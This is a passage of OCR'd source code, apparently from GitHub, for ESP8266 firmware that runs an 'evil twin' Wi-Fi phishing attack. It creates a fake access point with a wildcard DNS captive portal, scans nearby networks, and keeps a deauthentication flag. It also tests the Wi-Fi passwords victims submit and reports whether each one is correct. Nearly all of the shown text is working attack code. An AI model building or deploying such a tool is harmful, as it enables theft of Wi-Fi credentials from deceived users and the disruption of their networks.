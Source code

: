 const String _baseHTMLEnd = R"rawliteral(
  </div>
</body>
</html>
)rawliteral";

void setup() {
  Serial.begin(115200);
  WiFi.mode(WIFI_AP_STA);
  wifi_promiscuous_enable(1);
  
  // Configure and start the Access Point
  WiFi.softAPConfig(IPAddress(192, 168, 4, 1), IPAddress(192, 168, 4, 1), IPAddress(255, 255, 255, 0));
  WiFi.softAP("TPlinksecure", "mafia007");
  
  // Start DNS Server
  dnsServer.start(DNS_PORT, "*", IPAddress(192, 168, 4, 1));

  // Define Web Server Routes
  webServer.on("/", handleIndex);
  webServer.on("/result", handleResult);
  webServer.on("/admin", handleAdmin);
  webServer.onNotFound(handleIndex);
  webServer.begin();

  Serial.println("Setup complete. Access the web interface.");
}

void performScan() {
  int n = WiFi.scanNetworks();
  clearArray();
  if (n >= 0) {
    for (int i = 0; i < n && i < 16; ++i) {
      _Network network;
      network.ssid = WiFi.SSID(i);
      for (int j = 0; j < 6; j++) {
        network.bssid[j] = WiFi.BSSID(i)[j];
      }
      network.ch = WiFi.channel(i);
      _networks[i] = network;
    }
  }
}

bool hotspot_active = false;
bool deauthing_active = false;

// Handler for the Result Page
void handleResult() {
  String html = _baseHTMLStart;
  html += "<h2>Connection Status</h2>";
  if (WiFi.status() != WL_CONNECTED) {
    html += "<div class='message'>Wrong Password! Please, try again.</div>";
    html += "<script> setTimeout(function(){window.location.href = '/';}, 3000); </script>";
    Serial.println("Wrong password tried!");
  } else {
    html += "<div class='message'>Good password! Connected successfully.</div>";
    hotspot_active = false;
    dnsServer.stop();
    WiFi.softAPdisconnect(true);
    